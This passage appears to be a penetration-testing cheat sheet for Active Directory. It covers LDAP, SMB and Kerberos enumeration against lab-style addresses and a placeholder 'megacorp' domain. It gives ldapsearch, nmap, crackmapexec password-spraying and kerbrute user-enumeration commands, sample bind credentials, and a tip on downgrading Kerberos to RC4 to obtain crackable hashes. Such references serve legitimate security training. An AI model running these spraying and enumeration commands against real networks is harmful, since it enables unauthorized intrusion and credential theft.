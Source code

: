 _find service accounts_

```
ldapsearch -h 10.10.10.161 -p 389 -x -b "dc=box,dc=local" | grep "service"
```

_Enumeration with ldapsearch as authenticated user_

```
ldapsearch -x -h ldap.megacorp.corp -w '$pass'
ldapsearch -x -h 10.10.131.164 -p 389 -b "dc=megacorp,dc=corp" -D 'john@megacorp.corp' -w 'vs2k6!'
ldapsearch -D "cn=binduser,ou=users,dc=megacorp,dc=corp" -w 'J~42%W?]g' -s base namingcontexts
ldapsearch -D "cn=binduser,ou=users,dc=megacorp,dc=corp" -w 'J~42%W?]g' -b 'dc=megacorp'
```

_Enumeration with ldapdomaindump (authenticated) with nice output_

```
ldapdomaindump 10.10.197.117 -u 'megacorp.corp\john' -p '$pass' --no-json --no-grep
```

_Enumeration with nmap scripts_

```
nmap -p 389 --script ldap-search 10.10.10.x
nmap -n -sV --script "ldap*" -p 389 10.10.10.x
nmap -p 88 --script=krb5-enum-users --script-args krb5-enum-users.realm='MEGACORP.CORP',userdb=/usr/share/wordlists/seclists/Usernames/Names/names.txt 10.10.13.100
```

#### SMB Enumeration

_enumeration with crackmapexec as unauthenticated_

```
crackmapexec smb 10.10.10.x --pass-pol -u '' -p ''
```

_enumeration with crackmapexec (authenticated)_

```
crackmapexec smb 10.10.11.129 --pass-pol -u usernames.txt -p $pass --continue-on-sucess
crackmapexec smb 10.10.11.129 --pass-pol -u xlsx_users -p $pass --continue-on-sucess
```

_enumeration with kerbrute, against Kerberos pre-auth bruteforcing:_

```
/opt/kerbrute/dist/kerbrute_linux_amd64 userenum -d megacorp.local --dc 10.10.13.100 -o kerbrute.out users.txt
/opt/kerbrute/dist/kerbrute_linux_amd64 userenum -d megacorp.htb --dc 10.10.13.100 -o kerbrute.out users.lst --downgrade
```

> by default, kerbrute uses the most secure mode (18 = sha1) to pull some hash. Using the downgrade option we can pull the deprecaded encryption type version (23 = rc4hmac). Or use getNPusers to get some hash instead, it's safer!

_provide a password or a list of passwords to test against users_

```
crackmapexec smb 10.10.13.100 --pass-pol -u users.lst -p password_list
```
